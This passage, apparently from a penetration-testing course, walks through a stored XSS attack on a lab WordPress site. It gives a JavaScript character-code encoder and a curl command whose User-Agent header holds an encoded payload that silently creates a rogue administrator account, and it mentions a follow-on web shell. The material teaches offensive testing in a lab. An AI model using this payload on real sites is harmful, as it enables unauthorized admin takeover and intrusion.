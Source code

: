 As a final attack step, we are going to encode the minified JavaScript code, so any bad characters won't interfere with sending the payload. We can do this using the following function:
```bash
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```
We are going to decode and execute the encoded string by first decoding the string with the fromCharCode method, then running it via the eval()[377] method. Once we have copied the encoded string, we can insert it with the following curl command and launch the attack:
```bash
kali@kali:~$ curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,41,46,111,112,101,110,40,34,80,79,83,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,48,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,84,121,112,101,34,44,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,112,97,114,97,109,115,41,59))</script>" --proxy 127.0.0.1:8080
```
Before running the curl attack command, let's start Burp and leave Intercept on. We instructed curl to send a specially-crafted HTTP request with a User-Agent header containing our malicious payload, then forward it to our Burp instance so we can inspect it further. After running the curl command, we can inspect the request in Burp.

If everything seems correct, forward the request by clicking Forward, then disabling Intercept.

We notice that only one entry is present, and apparently no User-Agent has been recorded. This is because the User-Agent field contained our attack embedded into "\<script>" tags, so the browser cannot render any string from it. By loading the plugin statistics, we should have executed the malicious script, so let's verify if our attack succeeded by clicking on the Users menu on the left panel.

We could now advance our attack and gain access to the underlying host by crafting a custom WordPress plugin with an embedded web shell.